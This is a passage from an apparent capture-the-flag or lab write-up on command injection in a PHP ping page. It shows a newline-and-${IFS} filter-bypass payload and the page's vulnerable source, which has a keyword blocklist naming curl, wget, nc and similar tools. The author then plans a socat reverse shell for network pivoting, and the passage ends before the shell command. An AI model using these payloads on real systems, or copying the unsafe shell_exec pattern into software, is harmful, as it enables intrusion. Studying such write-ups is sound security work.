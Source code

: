 Yay! It returns multiple network adapter. I can hopefully pivot through this!
I guess that `ens192` of which IP is `172.16.8.120` might be the vector to pivot through.

To identify all filters, let's try to read `ping.php` file with the following payload : `%0acat${IFS}ping.php` (`${IFS}` replaces space!)

```php
<?php
ini_set('display_errors', 1);
ini_set('display_startup_errors', 1);
error_reporting(E_ALL);
$output = '';

function filter($str)
{
  $operators = ['&', '|', ';', '\\', '/', ' '];
  foreach ($operators as $operator) {
    if (strpos($str, $operator)) {
      return true;
    }
  }
  $words = ['whoami', 'echo', 'rm', 'mv', 'cp', 'id', 'curl', 'wget', 'cd', 'sudo', 'mkdir', 'man', 'history', 'ln', 'grep', 'pwd', 'file', 'find', 'kill', 'ps', 'uname', 'hostname', 'date', 'uptime', 'lsof', 'ifconfig', 'ipconfig', 'ip', 'tail', 'netstat', 'tar', 'apt', 'ssh', 'scp', 'less', 'more', 'awk', 'head', 'sed', 'nc', 'netcat'];
  foreach ($words as $word) {
    if (strpos($str, $word) !== false) {
      return true;
    }
  }

  return false;
}

if (isset($_GET['ip'])) {
  $ip = $_GET['ip'];
  if (filter($ip)) {
    $output = "Invalid input";
  } else {
    $cmd = "bash -c 'ping -c 1 " . $ip . "'";
    $output = shell_exec($cmd);
  }
}
?>
<?php
echo $output;
?>
```

It's filtering most commands, but I observed that `socat` command is not in the filter list.
Let's open a reverse shell through this.

Here's the modified request to spawn a reverse shell.
